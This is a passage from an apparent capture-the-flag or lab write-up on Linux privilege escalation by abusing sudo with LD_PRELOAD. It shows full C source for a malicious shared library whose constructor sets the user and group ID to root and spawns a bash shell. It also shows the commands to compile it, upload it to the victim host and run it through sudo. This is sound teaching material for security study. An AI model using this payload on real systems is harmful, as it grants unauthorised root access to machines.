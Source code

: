 Now compile the c program to shared object.
```bash
# -fPIC: Generate Position Independent Code.
# -shared: Generate a shared library.
# -o: Output shared object.
gcc  -fPIC -shared -o exploit.so exploit.c
```

We can execute command with setting the shared library to **LD_PRELOAD** variable then spawn the root shell.
```bash
sudo LD_PRELOAD=/tmp/exploit.so somecmd
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./privesc.c`:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Define a function `inject` that will run before the main() function due to the constructor attribute.

void inject() __attribute__((constructor));
void inject() {
    // Remove the `LD_PRELOAD` environment variable. This variable is commonly used
    // to inject shared libraries into programs at runtime. By unsetting it,
    // the code ensures that no other libraries are injected or interfere with the program.
	unsetenv("LD_PRELOAD"); // In this case it is not even necessary
    
    // Set the user ID to 0 (root). This gives the current process root privileges.
	setuid(0);

    // Set the group ID to 0 (root group), granting the process root-level group privileges.
	setgid(0);

    // Execute the system command "/bin/bash", which opens an interactive Bash shell giving the user unrestricted access to the system.
	system("/bin/bash");
}
```

`gcc -fPIC -shared ./privesc.c -o ./exia.so`

`upload /home/kali/exia.so /home/exia/exia.so`:
```
/home/exia/exia.so ━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 15.5/15.5 KB • ? • 0:00:00
[15:47:30] uploaded 15.54KiB in 0.32 seconds
```

![Victim: exia](https://img.shields.io/badge/Victim-exia-64b5f6?logo=linux&logoColor=white)

`sudo /usr/bin/zeug`
